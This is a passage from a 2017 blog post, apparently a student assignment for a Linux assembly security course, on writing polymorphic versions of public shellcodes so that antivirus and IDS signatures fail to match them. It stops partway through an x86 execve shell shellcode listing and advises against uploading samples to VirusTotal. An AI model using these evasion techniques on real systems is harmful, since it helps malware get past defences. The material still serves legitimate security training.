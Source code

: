 ```yaml
---
layout: post
title:  "SLAE Assignment 6 - Polymorphic shellcodes"
date:   2017-04-29
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 6:  
    
**Our Goal:**  
> *Take up 3 shellcodes from Shell-Storm and create polymorphic versions*
 - *The polymorphic versions can not be larger than 150% of the original versions*
 - *Bonus points if shorter in length than original*  
  
Hello everybody,  
  
So today we will create some polymorphic versions of existing shellcodes on the well-known site [shell-storm](http://shell-storm.org/shellcode/).  
Polymorphic versions aims at defeating pattern matching by AV and IDS:  
 - Replacing instructions with equivalent ones.
 - Add garbage instructions that will not change the shellcode functionality but create a mess for the AV analysis.  
  
[VirusTotal](https://www.virustotal.com/) gathers AV engines but i do not recommend to test your shellcode on it because it will be fingerprinted and may be added to their database, so your next NSA hack may fail, such a pity.  
<br />
### jmp/call/pop execve shell:  
  
Ok so for our first shellcode [execve.nasm](https://github.com/phackt/slae/tree/master/assignment6/execve/execve.nasm) let's have a look at a [jmp/call/pop execve shellcode](http://shell-storm.org/shellcode/files/shellcode-863.php) (52 bytes long):  
```nasm
global _start

section .text
_start:
    jmp short here

me:
    pop esi
    mov edi,esi
    
    xor eax,eax
    push eax
    mov edx,esp
    
    push eax
    add esp,3
    lea esi,[esi +4]
    xor eax,[esi]
    push eax
    xor eax,eax
    xor eax,[edi]
    push eax
    mov ebx,esp 

```